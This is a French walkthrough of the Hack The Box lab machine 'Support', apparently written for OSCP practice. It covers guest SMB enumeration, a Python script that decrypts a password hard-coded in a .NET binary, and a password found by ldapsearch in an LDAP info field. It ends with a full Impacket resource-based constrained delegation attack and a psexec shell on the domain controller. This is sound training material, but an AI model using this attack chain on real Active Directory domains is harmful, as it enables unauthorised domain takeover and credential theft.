


<table style="border:none; width:100%;">
  <tr>
    <!-- Colonne gauche : logo -->
    <td style="border:none; text-align:center; vertical-align:middle; width:150px;">
      
    </td>
    <td style="border:none; text-align:center; vertical-align:middle;">
      <table style="margin:auto; border-collapse:collapse; border:1px solid #ddd;">
        <thead>
          <tr>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Machine name</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">OS</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">IP</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Difficulty</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Support</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Windows</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">10.10.11.174</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Easy</td>
          </tr>
        </tbody>
      </table>
    </td>
  </tr>
</table>

## Users
```bash
ldap    : nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
support : Ironside47pleasure40Watchful
```

## System Info
```bash
Windows Server 2022 Build 20348 x64
```

## Enumeration

### nmap

```bash
$ nmap -sC -sV -An -T4 -vvv -p- 10.10.11.174
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-09-07 16:43:36Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49674/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49678/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49702/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

## Foothold

### Dumping Users using guest account
```bash
$ nxc smb 10.10.11.174 -u 'guest' -p ''                                                                                        
SMB         10.10.11.174    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.174    445    DC               [+] support.htb\guest:

$ nxc smb 10.10.11.174 -u 'guest' -p '' --rid-brute | cut -d':' -f2 | cut -d'\' -f2 | grep TypeUser | cut -d' ' -f1 > users.txt
Administrator
Guest
krbtgt
DC$
ldap
support
smith.rosario
hernandez.stanley
...
```

### SMB Share : support-tools
Grâce au compte **guest**, on obtient un accès sur le share smb `support-tools`, qui nous permet notamment de récupérer un fichier intéressant : `UserInfo.exe.zip`
```bash
$ nxc smb 10.10.11.174 -u 'guest' -p '' -M spider_plus

SMB         10.10.11.174    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.174    445    DC               [+] support.htb\guest: 
SPIDER_PLUS 10.10.11.174    445    DC               [*] Started module spidering_plus with the following options:
SPIDER_PLUS 10.10.11.174    445    DC               [*]  DOWNLOAD_FLAG: False
SPIDER_PLUS 10.10.11.174    445    DC               [*]     STATS_FLAG: True
SPIDER_PLUS 10.10.11.174    445    DC               [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_PLUS 10.10.11.174    445    DC               [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_PLUS 10.10.11.174    445    DC               [*]  MAX_FILE_SIZE: 50 KB
SPIDER_PLUS 10.10.11.174    445    DC               [*]  OUTPUT_FOLDER: /root/.nxc/modules/nxc_spider_plus
SMB         10.10.11.174    445    DC               [*] Enumerated shares
SMB         10.10.11.174    445    DC               Share           Permissions     Remark
SMB         10.10.11.174    445    DC               -----           -----------     ------
SMB         10.10.11.174    445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.174    445    DC               C$                              Default share
SMB         10.10.11.174    445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.174    445    DC               NETLOGON                        Logon server share 
SMB         10.10.11.174    445    DC               support-tools   READ            support staff tools
SMB         10.10.11.174    445    DC               SYSVOL                          Logon server share 
SPIDER_PLUS 10.10.11.174    445    DC               [+] Saved share-file metadata to "/root/.nxc/modules/nxc_spider_plus/10.10.11.174.json".
SPIDER_PLUS 10.10.11.174    445    DC               [*] SMB Shares:           6 (ADMIN$, C$, IPC$, NETLOGON, support-tools, SYSVOL)
SPIDER_PLUS 10.10.11.174    445    DC               [*] SMB Readable Shares:  2 (IPC$, support-tools)
SPIDER_PLUS 10.10.11.174    445    DC               [*] SMB Filtered Shares:  1
SPIDER_PLUS 10.10.11.174    445    DC               [*] Total folders found:  0
SPIDER_PLUS 10.10.11.174    445    DC               [*] Total files found:    7
SPIDER_PLUS 10.10.11.174    445    DC               [*] File size average:    13.96 MB
SPIDER_PLUS 10.10.11.174    445    DC               [*] File size min:        77.32 KB
SPIDER_PLUS 10.10.11.174    445    DC               [*] File size max:        45.87 MB

$ cat /root/.nxc/modules/nxc_spider_plus/10.10.11.174.json

{
    "support-tools": {
        "7-ZipPortable_21.07.paf.exe": {
            "atime_epoch": "2022-05-28 13:19:19",
            "ctime_epoch": "2022-05-28 13:19:19",
            "mtime_epoch": "2022-05-28 13:19:19",
            "size": "2.75 MB"
        },
        "UserInfo.exe.zip": {
            "atime_epoch": "2022-05-28 13:19:31",
            "ctime_epoch": "2022-05-28 13:19:31",
            "mtime_epoch": "2022-05-28 13:19:31",
            "size": "45.87 MB"
        },
        "UserInfo.exe.zip": {
            "atime_epoch": "2022-07-20 19:01:07",
            "ctime_epoch": "2022-07-20 19:01:06",
            "mtime_epoch": "2022-07-20 19:01:07",
            "size": "271 KB"
        },
        "WiresharkPortable64_3.6.5.paf.exe": {
            "atime_epoch": "2022-05-28 13:19:43",
            "ctime_epoch": "2022-05-28 13:19:43",
            "mtime_epoch": "2022-05-28 13:19:43",
            "size": "42.34 MB"
        },
        "npp.8.4.1.portable.x64.zip": {
            "atime_epoch": "2022-05-28 13:19:55",
            "ctime_epoch": "2022-05-28 13:19:55",
            "mtime_epoch": "2022-05-28 13:19:55",
            "size": "5.19 MB"
        },
        "putty.exe": {
            "atime_epoch": "2022-05-28 13:20:06",
            "ctime_epoch": "2022-05-28 13:20:06",
            "mtime_epoch": "2022-05-28 13:20:06",
            "size": "1.21 MB"
        },
        "windirstat1_1_2_setup.exe": {
            "atime_epoch": "2022-05-28 13:20:17",
            "ctime_epoch": "2022-05-28 13:20:17",
            "mtime_epoch": "2022-05-28 13:20:17",
            "size": "77.32 KB"
        }
    }
}
```

### UserInfo.exe.zip : .NET executable
```bash
$ nxc smb 10.10.11.174 -u 'guest' -p '' --get-file \\UserInfo.exe.zip UserInfo.exe.zip --share support-tools
SMB         10.10.11.174    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.174    445    DC               [+] support.htb\guest: 
SMB         10.10.11.174    445    DC               [*] Copying "\UserInfo.exe.zip" to "UserInfo.exe.zip"
SMB         10.10.11.174    445    DC               [+] File "\UserInfo.exe.zip" was downloaded to "UserInfo.exe.zip"
```
Ce zip contient un binaire cutom **UserInfo.exe**. En décompilant le binaire, on découvre une string ressemblant à un mot de passe chiffré ainsi qu'une clé :
- "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
- "armando"

Une fonction **getPassword** semble déchiffrer cette string à l'aide de la clé en effectuant une manipulation.



Grâce à **ChatGPT**, j'ai pu comprendre comment fonctionnait le code et il m'a généré un code Python équivalent au code **.NET** ce qui m'a permis de récupérer le mot de passe :
```python
import base64

enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = b"armando"

# Base64 decode
enc_bytes = base64.b64decode(enc_password)

dec_bytes = bytearray()
for i, b in enumerate(enc_bytes):
    k = key[i % len(key)]
    dec_bytes.append(b ^ k ^ 0xDF)

password = dec_bytes.decode("utf-8", errors="ignore")
print(password)
```
En executant le python, on trouve le mot de passe :
- ldap : `nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`

C'est très intéressant car une autre méthode attendue était d'executer le programme et d'effectuer des requête **ldap** authentifiées avec le compte utilisateur "ldap". Il suffisait de lancer **wireshark** et d'analyser le trafic réseau afin de récupérer le mot de passe !

Bien sûr, le jour de l'OSCP il n'y aura pas de **chatBot** autorisé donc il faut prioriser la seconde méthode, à moins que vous ayez un très bon décompilateur de code **.NET**.

### Rusthound / Bloodhound : "support" account
On execute **rusthound** afin d'extraire les informations du compte **ldap**, puis on fait une analyse sur bloodhound. On trouve le compte **support** qui semble être très intéressant car il existe une route permettant à cet utilisateur de prendre la main sur le **DC** :
```bash
$ rusthound -d support.htb -u "ldap"@"support.htb" -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -o /workspace/Support/bloodhound_data --zip -n 10.10.11.174
---------------------------------------------------
Initializing RustHound at 23:06:53 on 09/09/25
Powered by g0h4n from OpenCyber
---------------------------------------------------

[2025-09-09T21:06:53Z INFO  rusthound] Verbosity level: Info
[2025-09-09T21:06:53Z INFO  rusthound::ldap] Connected to SUPPORT.HTB Active Directory!
[2025-09-09T21:06:53Z INFO  rusthound::ldap] Starting data collection...
[2025-09-09T21:06:54Z INFO  rusthound::ldap] All data collected for NamingContext DC=support,DC=htb
[2025-09-09T21:06:54Z INFO  rusthound::json::parser] Starting the LDAP objects parsing...
[2025-09-09T21:06:54Z INFO  rusthound::json::parser::bh_41] MachineAccountQuota: 10
[2025-09-09T21:06:54Z INFO  rusthound::json::parser] Parsing LDAP objects finished!
[2025-09-09T21:06:54Z INFO  rusthound::json::checker] Starting checker to replace some values...
[2025-09-09T21:06:54Z INFO  rusthound::json::checker] Checking and replacing some values finished!
[2025-09-09T21:06:54Z INFO  rusthound::json::maker] 21 users parsed!
[2025-09-09T21:06:54Z INFO  rusthound::json::maker] 61 groups parsed!
[2025-09-09T21:06:54Z INFO  rusthound::json::maker] 2 computers parsed!
[2025-09-09T21:06:54Z INFO  rusthound::json::maker] 1 ous parsed!
[2025-09-09T21:06:54Z INFO  rusthound::json::maker] 1 domains parsed!
[2025-09-09T21:06:54Z INFO  rusthound::json::maker] 2 gpos parsed!
[2025-09-09T21:06:54Z INFO  rusthound::json::maker] 21 containers parsed!
[2025-09-09T21:06:54Z INFO  rusthound::json::maker] /workspace/Support/bloodhound_data/20250909230654_support-htb_rusthound.zip created!

RustHound Enumeration Completed at 23:06:54 on 09/09/25! Happy Graphing!
```


On remarque que le compte **support** fait parti du groupe **SHARED SUPPORT ACCOUNTS**, qui a le droit **GENERIC ALL** sur le DC.

Cependant, on ne trouve a aucun moyen de récupérer le compte **support**.

### ldapsearch : support's password
En analysant les données de l'Active Directory directement avec **ldapsearch**, on observe un champs **"info"** qu'on ne pouvait pas voir sur bloodhound. Il contient... le mot de passe de l'utilisateur **support** :
```bash
$ ldapsearch -x -H ldap://10.10.11.174 -D "support\ldap" -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" | grep -i "sAMAccountName.*support" -A10 -B25
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20220528111201.0Z
uSNCreated: 12617
info: Ironside47pleasure40Watchful  # <<<<<-------- HERE
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
uSNChanged: 12630
...
lastLogon: 0
pwdLastSet: 132982099209777070
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAG9v9Y4G6g8nmcEILUQQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: support
...
```

## Privilege Escalation

### Generic All on DC : Resource-Based Constrained Delegation Attack
Nous avons observé auparavant que **support** appartient à un groupe ayant le droite "GENERIC ALL" sur le DC.  
Il faut alors exploiter une **Resource-Based Constrained Delegation** Attack.

En utilisant les conseils donnés par **bloodhound**, voici un exemple d'exploitation :
```bash
# First, if an attacker does not control an account with an SPN set, a new attacker-controlled computer account can be added with Impacket's addcomputer.py example script:
$ addcomputer.py -computer-name 'HACKED$' -computer-pass 'hacked123!' -dc-host DC.SUPPORT.HTB -domain-netbios support.htb support.htb/'support':'Ironside47pleasure40Watchful'

[*] Successfully added machine account HACKED$ with password hacked123!.

# We now need to configure the target object so that the attacker-controlled computer can delegate to it. Impacket's rbcd.py script can be used for that purpose:
$ rbcd.py -delegate-from "HACKED$" -delegate-to 'DC$' -dc-ip "10.10.11.174" -action write "support.htb"/"support":'Ironside47pleasure40Watchful'

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] HACKED$ can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     HACKED$      (S-1-5-21-1677581083-3380853377-188903654-5601)

# And finally we can get a service ticket for the service name (sname) we want to "pretend" to be "admin" for. Impacket's getST.py example script can be used for that purpose.
$ getST.py -spn CIFS/dc.support.htb -impersonate Administrator -dc-ip "10.10.11.174" "support.htb"/'HACKED$':'hacked123!'

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@CIFS_dc.support.htb@SUPPORT.HTB.ccache
    
$ mv Administrator@CIFS_dc.support.htb@SUPPORT.HTB.ccache admin.ccache           
$ export KRB5CCNAME="admin.ccache"                                  

# This ticket can then be used with Pass-the-Ticket, and could grant access to the file system of the TARGETCOMPUTER.
$ psexec.py -k -no-pass support.htb/Administrator@dc.support.htb

[*] Requesting shares on dc.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file phZHHPqE.exe
[*] Opening SVCManager on dc.support.htb.....
[*] Creating service YbSC on dc.support.htb.....
[*] Starting service YbSC.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> type C:\Users\support\Desktop\user.txt
1e30.....0c23

C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
a848.....12cf
```

## Tips
Je n'ai pas trouvé le mot de passe de l'utilisateur **support** avec **ldapsearch**.

Conseil: Après de longues recherches sur **bloodhound**, si on trouve un compte et/ou un groupe intéressant, toujours les analyser avec **ldapsearch** après, pour vérifier qu'il n'y pas d'infos supplémentaires tel qu'un mot de passe dans une variable de description par exemple.